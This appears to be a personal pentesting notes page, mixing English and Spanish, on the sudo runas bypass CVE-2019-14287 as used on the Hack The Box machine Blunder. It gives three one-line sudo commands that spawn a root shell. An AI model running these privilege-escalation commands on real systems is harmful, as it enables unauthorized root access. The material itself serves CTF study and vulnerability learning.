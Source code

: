 ## DESCRIPTION

CVE-2019-14287

The configuration above is supposed to stop `sudo` as running as the root user. There was a public CVE release in November 2019 about how there were other ways to enter root besides `root` that got around this restriction. This impacts `sudo` versions before 1.8.28

¿Que necesitamos?

1. Poder ejecutar algún comando como sudo

![[Pasted image 20230302191827.png]]
Bypasaremos la protección del usuario -> Podremos **ejecutar lo que viene despues como el usuario root.**

#### Mas información
* https://0xdf.gitlab.io/2020/10/17/htb-blunder.html#priv-www-data--huge
* https://www.exploit-db.com/exploits/47502

## EXPLOITATION

```
#Probar todos

sudo -u#0 /bin/bash

sudo -u#-1 /bin/bash

sudo -u#4294967295 /bin/bash
```

## MACHINES

* Hack The Box: Blunder
